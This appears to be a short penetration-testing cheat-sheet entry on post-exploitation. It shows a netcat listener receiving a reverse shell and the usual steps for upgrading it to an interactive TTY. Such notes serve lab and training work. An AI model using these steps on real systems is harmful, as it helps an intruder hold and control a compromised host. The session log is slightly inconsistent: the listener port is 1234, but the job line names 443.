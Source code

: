 #Post Exploitation

##Spawn Interactive shell

```
kali@kali:~$ sudo nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.1.2.3] from (UNKNOWN) [10.1.2.4] 43298

python3 -c 'import pty;pty.spawn("/bin/bash")'
kali@linux-practice:~$ export TERM=xterm
export TERM=xterm
kali@linux-practice:~$ ^Z
[1]+ Stopped sudo nc -lvnp 443
kali@kali:~$ stty raw -echo; fg

```
